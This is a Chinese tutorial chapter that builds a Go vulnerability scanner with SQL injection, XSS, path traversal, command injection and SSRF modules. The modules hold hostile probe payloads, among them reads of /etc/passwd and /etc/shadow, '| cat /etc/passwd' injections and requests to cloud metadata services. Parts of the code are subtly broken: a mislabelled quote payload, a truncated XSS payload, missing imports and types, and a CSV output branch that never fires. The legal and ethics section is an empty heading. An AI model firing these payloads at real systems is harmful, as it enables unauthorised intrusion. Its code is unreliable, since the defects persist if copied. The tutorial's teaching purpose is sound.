

## 案例二：Go编写的自动化漏洞扫描器

自动化漏洞扫描器是安全工程师最常构建的工具之一。本案例将从零开始，用Go语言实现一个具备并发扫描能力、多检测模块、结构化输出的漏洞扫描器，并深入讲解每个设计决策背后的原理。

### 为什么选择Go编写安全工具

Go语言在安全工具开发领域有显著优势，这也是Nmap、Subfinder、Httpx、Nuclei等知名安全工具选择Go的原因：

| 特性 | Go的优势 | 对比C/Python |
|------|---------|-------------|
| 并发模型 | goroutine + channel，轻量级协程 | C需手动管理线程，Python受GIL限制 |
| 编译方式 | 静态编译为单个二进制，无依赖 | Python需解释器，C需链接库 |
| 交叉编译 | `GOOS=linux GOARCH=amd64 go build` | C需交叉编译工具链 |
| 标准库 | `net/http`、`crypto/tls`开箱即用 | Python需requests，C需libcurl |
| 内存安全 | 垃圾回收，无缓冲区溢出 | C手动管理，易出漏洞 |
| 部署便利 | 单文件scp即可部署 | Python需virtualenv，C需依赖 |
| 性能 | 接近C的性能，远超Python | Python慢10-100倍 |

安全工具的核心需求是：高并发（同时扫描大量目标）、网络IO密集（等待HTTP响应）、跨平台部署（在不同攻击机运行）。Go在这三个维度都表现优异。

### 架构设计

#### 整体架构

一个成熟的漏洞扫描器由以下核心模块组成：



#### 核心设计原则

**1. 检测模块插件化**：每种漏洞类型是一个独立模块，通过接口统一调用，新增检测类型只需实现接口，不修改核心逻辑。

**2. 并发控制**：用带缓冲的channel作为信号量（semaphore），限制同时运行的goroutine数量，避免打垮目标或耗尽本地资源。

**3. 结果聚合**：所有检测结果通过互斥锁安全地写入共享切片，最终统一处理。

### 完整代码实现

#### 项目结构

```text
vulnscanner/
├── main.go              # 入口，命令行解析
├── scanner.go           # 核心扫描引擎
├── modules/
│   ├── module.go        # 检测模块接口定义
│   ├── sqli.go          # SQL注入检测
│   ├── xss.go           # XSS检测
│   ├── traversal.go     # 路径遍历检测
│   ├── cmdinject.go     # 命令注入检测
│   └── ssrf.go          # SSRF检测
├── report/
│   └── report.go        # 报告生成
└── go.mod
```

#### 第一部分：核心引擎

```go
package main

import (
	"bufio"
	"crypto/tls"
	"fmt"
	"io"
	"net/http"
	"net/url"
	"os"
	"strings"
	"sync"
	"time"
)

// ScanResult 表示单次扫描的结果
// 每个检测模块对每个目标最多产生一条结果
type ScanResult struct {
	Target     string    `json:"target"`      // 扫描目标URL
	Module     string    `json:"module"`      // 检测模块名称
	StatusCode int       `json:"status_code"` // HTTP响应状态码
	Vulnerable bool      `json:"vulnerable"`  // 是否存在漏洞
	Severity   string    `json:"severity"`    // 严重程度: critical/high/medium/low/info
	Payload    string    `json:"payload"`     // 使用的测试payload
	Details    string    `json:"details"`     // 详细描述
	Timestamp  time.Time `json:"timestamp"`   // 检测时间
}

// DetectModule 定义检测模块的接口
// 所有漏洞检测模块都必须实现此接口
type DetectModule interface {
	Name() string                           // 模块名称
	Scan(client *http.Client, target string) []ScanResult // 执行扫描
}

// Scanner 是核心扫描引擎
type Scanner struct {
	client     *http.Client       // HTTP客户端，所有模块共享
	modules    []DetectModule     // 已注册的检测模块
	results    []ScanResult       // 扫描结果
	mu         sync.Mutex         // 保护results的互斥锁
	wg         sync.WaitGroup     // 等待所有goroutine完成
	sem        chan struct{}       // 并发控制信号量
	verbose    bool               // 是否输出详细日志
	rateLimit  time.Duration      // 请求间隔，防止触发WAF
}

// NewScanner 创建扫描器实例
// concurrency: 最大并发goroutine数
// rateLimit: 每次请求的最小间隔
func NewScanner(concurrency int, rateLimit time.Duration) *Scanner {
	return &Scanner{
		client: &http.Client{
			Timeout: 15 * time.Second,
			Transport: &http.Transport{
				TLSClientConfig: &tls.Config{
					InsecureSkipVerify: true, // 扫描器需要接受自签名证书
				},
				MaxIdleConns:        concurrency * 2,
				MaxIdleConnsPerHost: concurrency,
				IdleConnTimeout:     30 * time.Second,
			},
			// 不自动跟随重定向，因为重定向可能隐藏漏洞信息
			CheckRedirect: func(req *http.Request, via []*http.Request) error {
				if len(via) >= 3 {
					return fmt.Errorf("too many redirects")
				}
				return nil
			},
		},
		sem:       make(chan struct{}, concurrency),
		rateLimit: rateLimit,
	}
}

// Register 注册检测模块
func (s *Scanner) Register(mod DetectModule) {
	s.modules = append(s.modules, mod)
}

// LoadTargets 从文件加载目标列表，每行一个URL
func LoadTargets(filename string) ([]string, error) {
	file, err := os.Open(filename)
	if err != nil {
		return nil, fmt.Errorf("打开目标文件失败: %w", err)
	}
	defer file.Close()

	var targets []string
	scanner := bufio.NewScanner(file)
	for scanner.Scan() {
		line := strings.TrimSpace(scanner.Text())
		if line != "" && !strings.HasPrefix(line, "#") {
			targets = append(targets, line)
		}
	}
	return targets, scanner.Err()
}

// Scan 对所有目标运行所有已注册的检测模块
func (s *Scanner) Scan(targets []string) []ScanResult {
	s.results = nil // 重置结果

	for _, target := range targets {
		for _, mod := range s.modules {
			s.wg.Add(1)
			s.sem <- struct{}{} // 获取信号量，控制并发
			go func(t string, m DetectModule) {
				defer s.wg.Done()
				defer func() { <-s.sem }() // 释放信号量

				if s.rateLimit > 0 {
					time.Sleep(s.rateLimit)
				}

				results := m.Scan(s.client, t)
				if len(results) > 0 {
					s.mu.Lock()
					s.results = append(s.results, results...)
					s.mu.Unlock()
				}

				if s.verbose {
					fmt.Printf("[*] %s on %s: %d findings\n", m.Name(), t, len(results))
				}
			}(target, mod)
		}
	}

	s.wg.Wait()
	return s.results
}
```

这段代码有几个值得注意的设计决策：

**HTTP客户端配置**：`InsecureSkipVerify: true` 是故意的——漏洞扫描器需要测试各种HTTPS站点，包括使用自签名证书的目标。`CheckRedirect` 设置为不自动跟随重定向，因为某些漏洞（如开放重定向）只在不跟随重定向时才能检测到。

**信号量模式**：用 `make(chan struct{}, concurrency)` 创建带缓冲的channel。goroutine启动前向channel发送数据（`s.sem <- struct{}{}`），完成后从channel读取（`<-s.sem`）。当channel满时，发送操作会阻塞，从而限制并发数。这是Go并发控制的标准模式。

**速率限制**：`rateLimit` 参数在每个goroutine中通过 `time.Sleep` 实现。生产级工具应使用 `golang.org/x/time/rate` 包的令牌桶算法，实现更精确的速率控制。

#### 第二部分：SQL注入检测模块

```go
// modules/sqli.go
package modules

import (
	"fmt"
	"io"
	"net/http"
	"net/url"
	"strings"
)

type SQLiModule struct{}

func (m *SQLiModule) Name() string { return "SQLi" }

func (m *SQLiModule) Scan(client *http.Client, target string) []ScanResult {
	var results []ScanResult

	// 策略一：基于错误消息的检测
	// 发送特殊字符触发SQL语法错误，检查响应中是否泄露数据库错误信息
	errorPayloads := []struct {
		payload string
		desc    string
	}{
		{"'", "单引号闭合测试"},
		{"'", "双引号闭合测试"},
		{"1 OR 1=1", "布尔恒真测试"},
		{"1' OR '1'='1", "单引号布尔恒真"},
		{"1 UNION SELECT NULL--", "联合查询探测"},
		{"1; WAITFOR DELAY '0:0:5'--", "时间盲注探测(MSSQL)"},
	}

	// 常见数据库的错误特征字符串
	// 这些是数据库引擎在SQL语法错误时返回的典型消息
	dbErrorSignatures := map[string]string{
		"SQL syntax":              "MySQL语法错误",
		"mysql_fetch":             "MySQL查询错误",
		"MySQLSyntax":             "MySQL语法异常",
		"ORA-":                    "Oracle数据库错误",
		"Oracle error":            "Oracle错误",
		"PostgreSQL":              "PostgreSQL错误",
		"PG::SyntaxError":         "PostgreSQL语法错误",
		"SQLite":                  "SQLite错误",
		"SQLITE_ERROR":            "SQLite错误",
		"sqlite3.OperationalError": "SQLite操作错误",
		"MSSQL":                   "MSSQL错误",
		"Unclosed quotation mark": "SQL Server引号未闭合",
		"ODBC SQL Server":         "ODBC SQL Server错误",
		"Microsoft OLE DB":        "OLE DB错误",
		"JET Database Engine":     "Access/JET错误",
		"syntax error":            "通用SQL语法错误",
		"SQLSTATE":                "PDO/SQLSTATE错误",
	}

	for _, ep := range errorPayloads {
		testURL := fmt.Sprintf("%s?id=%s", target, url.QueryEscape(ep.payload))

		body, status, err := fetch(client, testURL)
		if err != nil {
			continue
		}

		for signature, dbType := range dbErrorSignatures {
			if strings.Contains(body, signature) {
				results = append(results, ScanResult{
					Target:     target,
					Module:     "SQLi",
					StatusCode: status,
					Vulnerable: true,
					Severity:   "critical",
					Payload:    ep.payload,
					Details:    fmt.Sprintf("基于错误的SQL注入 (%s): %s", dbType, ep.desc),
				})
				// 发现一个就足够确认漏洞，跳出内层循环
				break
			}
		}
	}

	// 策略二：布尔盲注检测
	// 对比恒真条件和恒假条件的响应差异
	trueURL := fmt.Sprintf("%s?id=1 AND 1=1", target)
	falseURL := fmt.Sprintf("%s?id=1 AND 1=2", target)

	trueBody, _, errT := fetch(client, trueURL)
	falseBody, _, errF := fetch(client, falseURL)

	if errT == nil && errF == nil && trueBody != falseBody && len(trueBody) > 0 && len(falseBody) > 0 {
		// 响应长度差异超过10%才认为有意义
		diff := float64(len(trueBody)-len(falseBody)) / float64(len(trueBody))
		if diff > 0.1 || diff < -0.1 {
			results = append(results, ScanResult{
				Target:   target,
				Module:   "SQLi",
				Vulnerable: true,
				Severity: "high",
				Payload:  "1 AND 1=1 / 1 AND 1=2",
				Details:  fmt.Sprintf("布尔盲注: 真条件响应%db，假条件响应%db，差异%.1f%%", len(trueBody), len(falseBody), diff*100),
			})
		}
	}

	// 策略三：时间盲注检测
	// 发送导致数据库延迟的payload，测量响应时间差异
	start := time.Now()
	fetch(client, fmt.Sprintf("%s?id=1' AND SLEEP(3)--", target))
	elapsed := time.Since(start)

	if elapsed > 2500*time.Millisecond { // 预期延迟3秒，允许一定误差
		results = append(results, ScanResult{
			Target:   target,
			Module:   "SQLi",
			Vulnerable: true,
			Severity: "critical",
			Payload:  "1' AND SLEEP(3)--",
			Details:  fmt.Sprintf("时间盲注: 响应耗时%s（预期~3s）", elapsed.Round(time.Millisecond)),
		})
	}

	return results
}

// fetch 发起GET请求，返回响应body和状态码
func fetch(client *http.Client, targetURL string) (string, int, error) {
	resp, err := client.Get(targetURL)
	if err != nil {
		return "", 0, err
	}
	defer resp.Body.Close()

	// 限制读取大小，防止大响应消耗内存
	body, err := io.ReadAll(io.LimitReader(resp.Body, 64*1024))
	if err != nil {
		return "", resp.StatusCode, err
	}

	return string(body), resp.StatusCode, nil
}
```

**三种SQL注入检测策略对比**：

| 策略 | 原理 | 优点 | 缺点 | 适用场景 |
|------|------|------|------|---------|
| 错误消息 | 注入触发SQL错误，检测错误关键词 | 简单快速，误报率低 | 依赖目标返回错误信息 | 开发环境、错误配置的生产环境 |
| 布尔盲注 | 对比真/假条件的响应差异 | 不依赖错误信息 | 需要响应有明显差异 | 页面内容随查询变化的场景 |
| 时间盲注 | 注入SLEEP语句，测量响应时间 | 最隐蔽，不依赖响应内容 | 速度慢，误报率较高 | 无回显、无错误的场景 |

#### 第三部分：XSS检测模块

```go
// modules/xss.go
package modules

import (
	"fmt"
	"net/http"
	"net/url"
	"strings"
)

type XSSModule struct{}

func (m *XSSModule) Name() string { return "XSS" }

func (m *XSSModule) Scan(client *http.Client, target string) []ScanResult {
	var results []ScanResult

	// XSS检测核心思路：注入一段特征标记，检查是否原样出现在响应中
	// 如果payload被原样返回，说明服务端没有对输入进行过滤或编码
	payloads := []struct {
		payload string
		desc    string
	}{
		// 基础探测：使用特殊字符检测输入是否被编码
		{"<script>alert(1)</script>", "经典script标签注入"},
		{"\">", "img标签onerror事件"},
		{"'><svg onload=alert(1)>", "svg标签onload事件"},
		{"javascript:alert(1)", "javascript协议注入"},
		{"<body onload=alert(1)>", "body标签onload事件"},

		// 编码绕过：尝试不同编码方式绕过简单过滤
		{"%3Cscript%3Ealert(1)%3C/script%3E", "URL编码绕过"},
		{"<scr<script>ipt>alert(1)</scr</script>ipt>", "双写绕过"},
		{"<SCRIPT>alert(1)</SCRIPT>", "大小写绕过"},
	}

	// 需要测试的参数名
	commonParams := []string{
		"q", "search", "query", "keyword", "s",
		"name", "input", "text", "value", "data",
		"page", "url", "redirect", "callback", "next",
		"error", "message", "msg", "debug", "test",
	}

	for _, param := range commonParams {
		for _, p := range payloads {
			testURL := fmt.Sprintf("%s?%s=%s", target, param, url.QueryEscape(p.payload))

			body, _, err := fetch(client, testURL)
			if err != nil {
				continue
			}

			// 检查payload是否原样出现在响应中（未被HTML编码）
			// 安全的做法是 < 变成 &lt;，> 变成 &gt;
			// 如果原样返回，则存在反射型XSS
			if strings.Contains(body, p.payload) {
				// 进一步确认：检查是否被HTML实体编码
				if !strings.Contains(body, "&lt;") || !strings.Contains(body, "&gt;") {
					results = append(results, ScanResult{
						Target:     target,
						Module:     "XSS",
						Vulnerable: true,
						Severity:   "high",
						Payload:    fmt.Sprintf("?%s=%s", param, p.payload),
						Details:    fmt.Sprintf("反射型XSS（%s），参数: %s", p.desc, param),
					})
					break // 该参数已确认存在XSS，无需继续测试
				}
			}
		}
	}

	return results
}
```

**XSS检测的误报控制**：检测反射型XSS时，仅检查payload是否出现在响应中是不够的。必须确认payload没有被HTML实体编码（`&lt;`、`&gt;`、`&amp;`）。如果服务端将 `<` 编码为 `&lt;`，虽然原文中包含payload字符串，但浏览器不会将其解析为HTML标签，因此不构成XSS。

#### 第四部分：路径遍历检测模块

```go
// modules/traversal.go
package modules

import (
	"fmt"
	"net/http"
	"net/url"
	"strings"
)

type TraversalModule struct{}

func (m *TraversalModule) Name() string { return "PathTraversal" }

func (m *TraversalModule) Scan(client *http.Client, target string) []ScanResult {
	var results []ScanResult

	// 路径遍历的核心：通过 ../ 跳出web目录，读取系统敏感文件
	// 不同操作系统的目标文件不同
	payloads := []struct {
		payload    string
		indicator  string // 在响应中出现此字符串说明读取成功
		severity   string
		desc       string
	}{
		// Linux目标
		{"../../../etc/passwd", "root:x:0:0", "critical", "读取/etc/passwd(Linux)"},
		{"../../../etc/shadow", "root:$", "critical", "读取/etc/shadow(Linux)"},
		{"../../../etc/hosts", "localhost", "medium", "读取/etc/hosts(Linux)"},
		{"../../../proc/self/environ", "PATH=", "high", "读取进程环境变量(Linux)"},
		{"../../../var/log/apache2/access.log", "GET /", "high", "读取Apache日志(Linux)"},

		// Windows目标
		{"../../../windows/win.ini", "[fonts]", "high", "读取win.ini(Windows)"},
		{"../../../windows/system32/drivers/etc/hosts", "localhost", "medium", "读取hosts(Windows)"},

		// 编码绕过
		{"..%2f..%2f..%2fetc/passwd", "root:x:0:0", "critical", "URL编码绕过"},
		{"....//....//....//etc/passwd", "root:x:0:0", "critical", "双写绕过"},
		{"%2e%2e/%2e%2e/%2e%2e/etc/passwd", "root:x:0:0", "critical", "点号编码绕过"},
		{"..\\..\\..\\etc\\passwd", "root:x:0:0", "critical", "反斜杠路径(Windows)"},
	}

	// 常见的文件包含参数
	fileParams := []string{"file", "path", "page", "include", "doc", "filename", "dir", "folder", "filepath", "name"}

	for _, param := range fileParams {
		for _, p := range payloads {
			testURL := fmt.Sprintf("%s?%s=%s", target, param, url.QueryEscape(p.payload))

			body, _, err := fetch(client, testURL)
			if err != nil {
				continue
			}

			if strings.Contains(body, p.indicator) {
				results = append(results, ScanResult{
					Target:     target,
					Module:     "PathTraversal",
					Vulnerable: true,
					Severity:   p.severity,
					Payload:    fmt.Sprintf("?%s=%s", param, p.payload),
					Details:    fmt.Sprintf("%s，参数: %s", p.desc, param),
				})
				break
			}
		}
	}

	return results
}
```

#### 第五部分：命令注入与SSRF模块

```go
// modules/cmdinject.go
package modules

import (
	"fmt"
	"net/http"
	"net/url"
	"strings"
	"time"
)

type CmdInjectModule struct{}

func (m *CmdInjectModule) Name() string { return "CmdInject" }

func (m *CmdInjectModule) Scan(client *http.Client, target string) []ScanResult {
	var results []ScanResult

	// 命令注入：在参数值后追加系统命令
	// 常见拼接符：|、||、&、&&、;、`、$()
	payloads := []struct {
		payload   string
		indicator string
		desc      string
	}{
		{"| id", "uid=", "管道符注入(|)"},
		{"|| id", "uid=", "OR管道注入(||)"},
		{"; id", "uid=", "分号注入(;)"},
		{"`id`", "uid=", "反引号注入"},
		{"$(id)", "uid=", "命令替换注入"},
		{"| whoami", "", "管道符whoami"},
		{"| cat /etc/passwd", "root:x:0:0", "读取passwd"},
	}

	commonParams := []string{"cmd", "exec", "command", "ping", "host", "ip", "target", "domain", "url", "addr"}

	for _, param := range commonParams {
		for _, p := range payloads {
			testURL := fmt.Sprintf("%s?%s=%s", target, param, url.QueryEscape("127.0.0.1"+p.payload))

			body, _, err := fetch(client, testURL)
			if err != nil {
				continue
			}

			// 检查是否包含命令执行的输出特征
			if p.indicator != "" && strings.Contains(body, p.indicator) {
				results = append(results, ScanResult{
					Target:     target,
					Module:     "CmdInject",
					Vulnerable: true,
					Severity:   "critical",
					Payload:    fmt.Sprintf("?%s=127.0.0.1%s", param, p.payload),
					Details:    fmt.Sprintf("操作系统命令注入（%s），参数: %s", p.desc, param),
				})
				break
			}
		}
	}

	// 时间盲注：通过延迟确认命令执行
	start := time.Now()
	fetch(client, fmt.Sprintf("%s?host=127.0.0.1|sleep+3", target))
	if time.Since(start) > 2500*time.Millisecond {
		results = append(results, ScanResult{
			Target:   target,
			Module:   "CmdInject",
			Vulnerable: true,
			Severity: "critical",
			Payload:  "127.0.0.1|sleep+3",
			Details:  "时间盲注命令注入: 响应延迟>2.5s",
		})
	}

	return results
}

// SSRFModule 检测服务端请求伪造
type SSRFModule struct{}

func (m *SSRFModule) Name() string { return "SSRF" }

func (m *SSRFModule) Scan(client *http.Client, target string) []ScanResult {
	var results []ScanResult

	// SSRF探测：让服务端向我们控制的地址发起请求
	// 常见内网地址用于确认是否能访问内部网络
	payloads := []struct {
		payload string
		desc    string
	}{
		{"http://127.0.0.1", "本地回环地址"},
		{"http://127.0.0.1:80", "本地80端口"},
		{"http://127.0.0.1:3306", "本地MySQL端口"},
		{"http://127.0.0.1:6379", "本地Redis端口"},
		{"http://169.254.169.254/latest/meta-data/", "AWS元数据服务"},
		{"http://metadata.google.internal/", "GCP元数据服务"},
		{"http://100.100.100.200/latest/meta-data/", "阿里云元数据服务"},
		{"file:///etc/passwd", "file协议读取文件"},
		{"dict://127.0.0.1:6379/info", "dict协议探测Redis"},
		{"gopher://127.0.0.1:6379/_INFO", "gopher协议探测Redis"},
	}

	ssrfParams := []string{"url", "uri", "link", "src", "href", "dest", "redirect", "feed", "img", "image", "source", "file"}

	for _, param := range ssrfParams {
		for _, p := range payloads {
			testURL := fmt.Sprintf("%s?%s=%s", target, param, url.QueryEscape(p.payload))

			_, status, err := fetch(client, testURL)
			if err != nil {
				continue
			}

			// 非5xx响应通常意味着服务端尝试了请求
			// 更精确的检测需要DNSLog或HTTP回调服务器配合
			if status >= 200 && status < 500 {
				results = append(results, ScanResult{
					Target:     target,
					Module:     "SSRF",
					Vulnerable: true,
					Severity:   "critical",
					Payload:    fmt.Sprintf("?%s=%s", param, p.payload),
					Details:    fmt.Sprintf("潜在SSRF（%s），参数: %s，状态码: %d", p.desc, param, status),
				})
			}
		}
	}

	return results
}
```

**SSRF检测的局限性**：仅通过HTTP响应判断SSRF存在较高的误报率。生产环境应配合DNSLog（如 dnslog.cn、ceye.io）或自建HTTP回调服务器，确认目标确实发起了外部请求。

#### 第六部分：报告生成

```go
// report/report.go
package report

import (
	"encoding/json"
	"fmt"
	"html/template"
	"os"
	"time"
)

type ScanResult struct {
	Target     string    `json:"target"`
	Module     string    `json:"module"`
	StatusCode int       `json:"status_code"`
	Vulnerable bool      `json:"vulnerable"`
	Severity   string    `json:"severity"`
	Payload    string    `json:"payload"`
	Details    string    `json:"details"`
	Timestamp  time.Time `json:"timestamp"`
}

// GenerateJSON 输出JSON格式报告
func GenerateJSON(results []ScanResult, filename string) error {
	data, err := json.MarshalIndent(results, "", "  ")
	if err != nil {
		return err
	}
	return os.WriteFile(filename, data, 0644)
}

// GenerateCSV 输出CSV格式报告
func GenerateCSV(results []ScanResult, filename string) error {
	f, err := os.Create(filename)
	if err != nil {
		return err
	}
	defer f.Close()

	fmt.Fprintln(f, "Target,Module,Severity,Vulnerable,StatusCode,Details,Payload")
	for _, r := range results {
		fmt.Fprintf(f, "%s,%s,%s,%t,%d,\"%s\",\"%s\"\n",
			r.Target, r.Module, r.Severity, r.Vulnerable,
			r.StatusCode, r.Details, r.Payload)
	}
	return nil
}

// GenerateHTML 输出HTML格式报告
func GenerateHTML(results []ScanResult, filename string) error {
	tmpl := `<!DOCTYPE html>
<html><head><meta charset="utf-8"><title>漏洞扫描报告</title>
<style>
body{font-family:sans-serif;margin:20px;background:#1a1a2e;color:#eee}
h1{color:#e94560}
table{border-collapse:collapse;width:100%}
th,td{border:1px solid #333;padding:8px;text-align:left}
th{background:#16213e}
.critical{color:#ff4444;font-weight:bold}
.high{color:#ff8800;font-weight:bold}
.medium{color:#ffcc00}
.low{color:#88cc00}
</style></head><body>
<h1>漏洞扫描报告</h1>
<p>扫描时间: {{.ScanTime}}</p>
<p>发现漏洞: {{.VulnCount}} 个</p>
<table><tr><th>目标</th><th>模块</th><th>严重程度</th><th>详情</th><th>Payload</th></tr>
{{range .Results}}
<tr><td>{{.Target}}</td><td>{{.Module}}</td>
<td class="{{.Severity}}">{{.Severity}}</td>
<td>{{.Details}}</td><td><code>{{.Payload}}</code></td></tr>
{{end}}</table></body></html>`

	t, err := template.New("report").Parse(tmpl)
	if err != nil {
		return err
	}

	f, err := os.Create(filename)
	if err != nil {
		return err
	}
	defer f.Close()

	vulnCount := 0
	for _, r := range results {
		if r.Vulnerable {
			vulnCount++
		}
	}

	return t.Execute(f, map[string]interface{}{
		"Results":   results,
		"ScanTime":  time.Now().Format("2006-01-02 15:04:05"),
		"VulnCount": vulnCount,
	})
}
```

#### 第七部分：主程序入口

```go
// main.go
package main

import (
	"flag"
	"fmt"
	"os"
	"time"

	"vulnscanner/modules"
	"vulnscanner/report"
)

func main() {
	targetFile := flag.String("f", "", "目标URL文件，每行一个")
	targetURL := flag.String("u", "", "单个目标URL")
	concurrency := flag.Int("c", 10, "并发数")
	rateLimit := flag.Int("r", 100, "请求间隔(毫秒)")
	output := flag.String("o", "report.json", "输出文件 (json/csv/html)")
	verbose := flag.Bool("v", false, "详细输出")
	flag.Parse()

	if *targetFile == "" && *targetURL == "" {
		fmt.Println("用法: vulnscanner -f targets.txt [-c 20] [-r 200] [-o report.json]")
		fmt.Println("      vulnscanner -u http://example.com [-o report.html]")
		os.Exit(1)
	}

	// 加载目标
	var targets []string
	if *targetURL != "" {
		targets = []string{*targetURL}
	} else {
		var err error
		targets, err = LoadTargets(*targetFile)
		if err != nil {
			fmt.Fprintf(os.Stderr, "加载目标失败: %v\n", err)
			os.Exit(1)
		}
	}

	fmt.Printf("[*] 加载 %d 个目标，并发数: %d，间隔: %dms\n", len(targets), *concurrency, *rateLimit)

	// 创建扫描器并注册所有检测模块
	scanner := NewScanner(*concurrency, time.Duration(*rateLimit)*time.Millisecond)
	scanner.verbose = *verbose

	scanner.Register(&modules.SQLiModule{})
	scanner.Register(&modules.XSSModule{})
	scanner.Register(&modules.TraversalModule{})
	scanner.Register(&modules.CmdInjectModule{})
	scanner.Register(&modules.SSRFModule{})

	// 执行扫描
	fmt.Println("[*] 开始扫描...")
	start := time.Now()
	results := scanner.Scan(targets)
	elapsed := time.Since(start)

	// 输出结果
	fmt.Printf("[*] 扫描完成，耗时 %s\n", elapsed.Round(time.Second))
	fmt.Printf("[*] 共 %d 个目标，%d 个模块，发现 %d 个漏洞\n",
		len(targets), len(scanner.modules), countVulns(results))

	for _, r := range results {
		if r.Vulnerable {
			icon := severityIcon(r.Severity)
			fmt.Printf("  %s [%s] %s - %s\n", icon, r.Module, r.Target, r.Details)
		}
	}

	// 生成报告
	switch {
	case *output == "" || *output == "report.json":
		report.GenerateJSON(results, *output)
	case *output == "*.csv":
		report.GenerateCSV(results, *output)
	default:
		report.GenerateHTML(results, *output)
	}
	fmt.Printf("[*] 报告已保存: %s\n", *output)
}

func countVulns(results []ScanResult) int {
	n := 0
	for _, r := range results {
		if r.Vulnerable {
			n++
		}
	}
	return n
}

func severityIcon(s string) string {
	switch s {
	case "critical":
		return "🔴"
	case "high":
		return "🟠"
	case "medium":
		return "🟡"
	case "low":
		return "🟢"
	default:
		return "⚪"
	}
}
```

### 关键并发模式详解

#### 信号量模式（Semaphore Pattern）

```go
sem := make(chan struct{}, 10) // 缓冲区大小 = 最大并发数

// 获取信号量
sem <- struct{}{}
go func() {
    defer func() { <-sem }() // 释放信号量
    // 执行任务...
}()
```

这是Go并发控制的基石。缓冲channel的容量决定了同时运行的goroutine上限。当channel满时，发送阻塞，新goroutine必须等待有goroutine完成后才能启动。

#### WaitGroup协同

```go
var wg sync.WaitGroup
wg.Add(1)    // 在启动goroutine之前调用
go func() {
    defer wg.Done()
    // 工作...
}()
wg.Wait()    // 阻塞直到所有Done()被调用
```

常见错误是把 `wg.Add(1)` 放在goroutine内部——这可能导致 `wg.Wait()` 在 `Add` 之前返回。必须在 `go` 语句之前调用 `Add`。

#### 互斥锁保护共享状态

```go
var mu sync.Mutex
var results []ScanResult

mu.Lock()
results = append(results, result)
mu.Unlock()
```

多个goroutine同时写入切片会导致数据竞争（data race）。`sync.Mutex` 确保同一时刻只有一个goroutine能修改 `results`。Go的 `-race` 标志可以检测数据竞争：

```bash
go run -race main.go -u http://example.com
```

### 生产级增强

#### 1. 代理支持

```go
func NewScannerWithProxy(concurrency int, proxyURL string) *Scanner {
	proxy, _ := url.Parse(proxyURL)
	return &Scanner{
		client: &http.Client{
			Transport: &http.Transport{
				Proxy: http.ProxyURL(proxy),
			},
		},
	}
}
```

#### 2. 自定义请求头

```go
// 伪装为正常浏览器
req, _ := http.NewRequest("GET", target, nil)
req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
req.Header.Set("Accept", "text/html,application/xhtml+xml")
req.Header.Set("Accept-Language", "zh-CN,zh;q=0.9,en;q=0.8")
resp, err := client.Do(req)
```

#### 3. 使用令牌桶进行精确限速

```go
import "golang.org/x/time/rate"

// 每秒允许20个请求，突发最多5个
limiter := rate.NewLimiter(20, 5)

func (s *Scanner) rateLimitedGet(url string) (*http.Response, error) {
	if err := s.limiter.Wait(context.Background()); err != nil {
		return nil, err
	}
	return s.client.Get(url)
}
```

#### 4. 超时与重试

```go
func fetchWithRetry(client *http.Client, url string, maxRetries int) (string, int, error) {
	var lastErr error
	for i := 0; i <= maxRetries; i++ {
		body, status, err := fetch(client, url)
		if err == nil {
			return body, status, nil
		}
		lastErr = err
		time.Sleep(time.Duration(i+1) * 500 * time.Millisecond) // 指数退避
	}
	return "", 0, fmt.Errorf("重试%d次后失败: %w", maxRetries, lastErr)
}
```

#### 5. DNSLog外带验证（SSRF/命令注入）

```go
// 使用ceye.io API验证OOB(out-of-band)漏洞
type DNSLogClient struct {
	token  string
	domain string // xxx.ceye.io
}

func (d *DNSLogClient) GenerateSubdomain() string {
	return fmt.Sprintf("%d.%s", time.Now().UnixNano(), d.domain)
}

func (d *DNSLogClient) CheckRecord(subdomain string) bool {
	url := fmt.Sprintf("http://api.ceye.io/v1/records?token=%s&type=dns&filter=%s", d.token, subdomain)
	resp, _ := http.Get(url)
	body, _ := io.ReadAll(resp.Body)
	return len(body) > 10 // 有记录说明触发了DNS查询
}
```

### 与现有工具对比

| 特性 | 本案例扫描器 | Nuclei | sqlmap |
|------|-------------|--------|--------|
| 语言 | Go | Go | Python |
| 检测模块 | 5种 | 8000+模板 | SQLi专精 |
| 并发模型 | goroutine | goroutine | 多进程 |
| 模板化 | 代码内置 | YAML模板 | 脚本 |
| 学习价值 | 高（可读源码） | 中（模板驱动） | 低（黑盒） |
| 生产适用 | 原型/学习 | 生产级 | 生产级 |
| 扩展性 | 需改代码 | 加YAML文件 | 加tamper脚本 |

本案例的价值在于让你理解漏洞扫描器的底层原理。理解了这些，使用Nuclei等工具时就能更好地编写自定义模板、分析误报、定制检测逻辑。

### 安全扫描的法律与伦理

**这是使用漏洞扫描器前必须了解的内容。**

